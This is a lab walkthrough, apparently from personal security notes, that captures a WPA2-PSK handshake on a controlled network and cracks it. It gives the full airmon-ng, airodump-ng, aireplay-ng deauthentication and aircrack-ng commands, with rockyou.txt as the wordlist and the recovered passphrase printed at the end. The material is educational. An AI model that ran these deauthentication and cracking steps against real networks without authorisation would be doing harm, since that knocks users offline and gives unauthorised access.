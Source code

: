 
> [!info]
> This was performed on a controlled network, meaning everything performed was both legal and ethical.

This walkthrough does not contain in-depth explanations of every tool used.  For references to the tools used, see my [Wireless Cheatsheet](../Notes/Wireless%20Cheatsheet.md).

## Overview
---
WPA2-PSK (also known as WPA2-Personal) is one of the most commonly used types Wi-Fi network authentication -- most common in home or public settings.

The PSK stands for "Pre-Shared Key", meaning authentication is handled via a single pre-shared passphrase, aka a static password.  All devices and users connecting to the network must know and use this passphrase.

This means for authentication, a bad actor must capture the handshake between an end-user and the network, then crack that handshake to acquire the network's password.

## Capturing the WPA Handshake
---

```bash
# View Current WiFi Driver
sudo airmon-ng
# Create Monitor Interface
sudo airmon-ng start <interface>
```

![[Pasted image 20231015005332.png]]

With the monitor interface configured, next I began sniffing the network to find what networks are available.

```shell
# See available networks/channels/security
sudo airodump-ng <mon_interface>
```
*(In this case, my monitor interface is wlan0mon)*

![[Pasted image 20231015185528.png]]

This revealed the SSID of the WPA2-PSK network, that it's on channel 4, and that the MAC address is "02:13:37:BE:EF:03".

With this knowledge, I restarted my "airodump" listener, refining it to focus specifically on the target network.

```shell
sudo airodump-ng --bssid "02:13:37:BE:EF:03" -c 4 --write "<network_ssid>" wlan0mon
```

In a separate terminal, I validated that the network was vulnerable to a deauth attack before performing the actual attack.

```shell
# Perform an injection test
sudo aireplay-ng -9 -a "02:13:37:BE:EF:03" wlan0mon

# Perform a de-authentication attack
sudo aireplay-ng --deauth 100 -a "02:13:37:BE:EF:03" wlan0mon
```

![[Pasted image 20231015185859.png]]

![[Pasted image 20231015185925.png]]

After performing the de-authentication attack, I was able to capture a WPA handshake.

![[Pasted image 20231015190024.png]]

After capturing the WPA handshake, I closed my "airodump" listener and disabled my monitor interface.

![[Pasted image 20231015175905.png]]


## Cracking the Passphrase
---

With the WPA handshake captured, I was able to crack the passphrase by using "aircrack-ng" -- feeding the "airodump" capture as the target and "rockyou.txt" to it as the wordlist.

```shell
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt ./<network_ssid>-01.cap
```

![[Pasted image 20231015190419.png]]

```
Passphrase: 1q2w3e4r
```
